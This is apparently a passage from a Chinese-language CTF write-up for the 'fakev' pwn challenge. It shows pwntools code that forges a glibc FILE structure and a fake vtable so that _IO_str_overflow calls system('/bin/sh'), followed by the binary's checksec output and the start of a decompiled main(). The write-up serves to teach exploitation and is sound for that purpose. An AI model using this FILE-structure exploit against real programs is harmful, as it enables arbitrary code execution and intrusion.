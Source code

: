 > Note that we also have to set `fp->_lock` to an address pointing to `NULL` to prevent `fclose` waiting on someone else for releasing the lock. 

```c
rip = libc_base + libc.symbols['system']
rdi = libc_base + next(libc.search("/bin/sh"))

io_str_overflow_ptr_addr = libc_base + libc.symbols['_IO_file_jumps'] + 0xd8
# Calculate the vtable by subtracting appropriate offset
fake_vtable_addr = io_str_overflow_ptr_addr - 2*8

# Craft file struct
file_struct = pack_file(_IO_buf_base = 0,
                        _IO_buf_end = (rdi-100)/2,
                        _IO_write_ptr = (rdi-100)/2,
                        _IO_write_base = 0,
                        _lock = bin.symbols['fake_file'] + 0x80)
# vtable pointer
file_struct += p64(fake_vtable_addr)
# (*((_IO_strfile *) fp)->_s._allocate_buffer)
file_struct += p64(rip)
file_struct = file_struct.ljust(0x100, "\x00")
```

详细利用方法可以参考[FILE Structure Exploitation ('vtable' check bypass)-Dhaval Kapil](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/)

### 0x1 分析

OK,梳理题目。

看一下安全机制：

```shell
[*] '/home/mech0n/pwn/m0lecon/fakev/fakev'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开了CANARY，但是地址固定。

然后看函数吧

`main()`给了大致的功能，打开文件，读文件，关闭文件，~~写文件~~。

```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  initialize();
  while ( 1 )
  {
    print_menu();
    get_int();
    switch ( (unsigned int)&savedregs )
    {
      case 1u:
        open_file();
        break;
      case 2u:
        read_content(*(__int64 *)&argc);
        break;
      case 3u:
```